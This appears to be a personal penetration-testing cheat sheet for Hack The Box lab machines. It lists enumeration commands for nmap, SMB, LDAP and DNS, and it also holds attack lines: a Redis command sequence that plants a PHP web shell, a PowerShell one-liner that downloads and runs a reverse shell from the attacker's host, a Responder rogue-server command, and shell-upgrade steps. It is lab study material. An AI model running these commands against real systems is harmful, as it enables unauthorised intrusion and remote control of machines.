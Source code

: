 
# NMAP
nmap -sC -sV -sT -oA NMAP/HTB 10.10.10.161

# FTP
ftp $targetip
Username: anonymous
Password: anything

# HTTP

gobuster dir -w /usr/share/wordlists/dirb/big.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.157:80 -o   gobuster_10.10.10.157_80.txt


# SMB
smbclient -N -L //10.10.10.161/

smbclient -N //10.10.10.161/Share

smbmap -H 10.10.10.161 -u anonymous -d HTB.LOCAL

smbmap -H 10.10.10.161 -u anonymous -d localhost

https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html?fbclid=IwAR1qQDsLzkudInhrnUwL1V9ONiVXMD-vW1V5hrEI92xmuhlExEFOmyu_3xc#check-null-sessions

- NetNTLM relaying:

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

# LDAP
ldapsearch -x -h 10.10.10.161 -s base namingcontexts
ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb" 

responder.py -I eth0 -w -f

-w : WPAD rogue server
-f : This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

# DNS
nslookup
SERVER 10.10.10.161
- 127.0.0.1
- 10.10.10.161

dnsrecon -r 127.0.0.0/24 -n 10.10.10.161

dnsrecon -r 127.0.1.0/24 -n 10.10.10.161

dnsrecon -r 10.10.10.0/24 -n 10.10.10.161


dig axfr @10.10.10.161

dig axfr bank.htb @10.10.10.161

# Upgrading Reverse Shells to be Fully Interactive
python -c "import pty; pty.spawn('/bin/bash')"
Press Ctrl+Z to background your reverse shell, then in your local machine run: 
- stty raw -echo
- fg

Type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

stty size

This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

stty -rows 48 -columns 120

# Redis

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

flushall

set PleaseSubscribe "<? system($_REQUEST['cmd']); ?>"

config set dbfilename shell.php

config set dir /var/www/html/

save

# Python SERVER

python -m simpleHTTPServer

# Windows nishang shell

Linux Site:

- gedit Invoke-PowerShellTcp.ps1 (Invoke-PowerShellTcp -Reverse -IPAdress 192.168.1.32 -Port 4444
- python -m SimpleHTTPServer
- nc -lvp 4444

Windows Site:

- C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')

# Privilige Escalation

-Windows

https://guif.re/windowseop?fbclid=IwAR2fwsD6D7XjFhZbD4IGSTHtQkGs5D7HXEwVEnCYSQEDWzsuqds8geOi7uc#EoP%208:%20Kernel%20vulnerabilities

https://www.scip.ch/en/?labs.20181011

- Linux
https://gtfobins.github.io/

